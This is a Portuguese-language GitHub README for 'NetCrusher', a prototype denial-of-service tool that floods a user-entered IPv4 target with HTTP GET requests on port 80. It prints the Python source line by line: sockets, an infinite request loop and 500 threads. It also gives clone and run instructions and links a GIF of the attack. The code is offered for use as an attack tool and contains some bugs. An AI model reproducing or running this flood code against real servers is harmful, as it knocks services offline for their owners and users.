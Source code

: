 # Read.me

## Introdução 

- NetCrusher é um código de ataque Dos simples, sendo utilizado como base para uma ferramenta que negará Serviço na Camada de Aplicação. Esse Código realiza um ataque de Flood HTTP,
um tipo de ataque de negação de serviço (DoS), enviando um grande número de solicitações HTTP GET para um servidor alvo.

- Vale ressaltar que isso é um protótipo. Ele será a base da base pro que será a ferramenta final.

- Código 
<div style="display: inline_block"><br>
   <img align="center" alt="foto-teste" src="https://media.discordapp.net/attachments/1216774284471570473/1240432389948444794/image.png?ex=66468a2f&is=664538af&hm=34c7eab336f50442ef581240a3d67d6bfc93185067781cd424e8d93164530978&=&format=webp&quality=lossless"
</div> 

  >Imagem do código na shell
  * Este código em Python parece ser uma implementação de um ataque de negação de serviço (DoS) do tipo HTTP flood. Vou explicar cada parte do código:
Importações:

```python
      import socket
      import threading
```



- Estas bibliotecas são importadas para permitir o uso de sockets (conexões de rede) e threading (execução de múltiplas threads simultaneamente).
Entrada do usuário:

```python
      target = str(input("entre com o iPv4: "))
      port = 80
```


- Aqui, o código solicita ao usuário que insira o endereço IPv4 do alvo. A porta é definida como 80, que é a porta padrão para tráfego HTTP.

  * Função
 
```python
      http_flood:
      def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target,port))
        s.sendto(("Host: 192.168.56.2" +"\r\n\r\n").encode('ascii'), (target,port))
        print("Mandando Solicitação")
```

- Esta função é responsável por criar uma conexão TCP com o servidor de destino na porta 80 e enviar repetidamente uma solicitação HTTP GET. A função está em um loop infinito (while True), o que significa que continuará enviando solicitações até que o programa seja interrompido.

```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Cria um socket TCP.
    s.connect((target, port)) #Conecta ao alvo na porta especificada.
    s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port)) #Envia uma solicitação HTTP GET.
    s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port)) #Envia o cabeçalho Host.
    print("Mandando Solicitação") #Imprime uma mensagem indicando que a solicitação foi enviada.
```


- Criação e inicialização das threads:

```python
  for i in range(500):
  thread = threading.Thread(target=http_flood())
  thread.start()
  Aqui, o código cria 500 threads, cada uma executando a função http_flood.

```





- instalação: 
  * git clone https://github.com/molinaticas/DDOS-simples.git

- COMO USAR:
  * python3 NetCrusher

- DEMONSTRAÇÃO: 

<div style="display: inline_block"><br>
  <img align="center" alt="gif" src="https://cdn.discordapp.com/attachments/1141095761069752330/1240441549414993961/Video_sem_titulo.gif?ex=664692b7&is=66454137&hm=10154f0bd484bc5a1fa1c2cff432144ae1f3253edabce67f9e651bff61460b63&"
</div> 

  >GIF do ataque

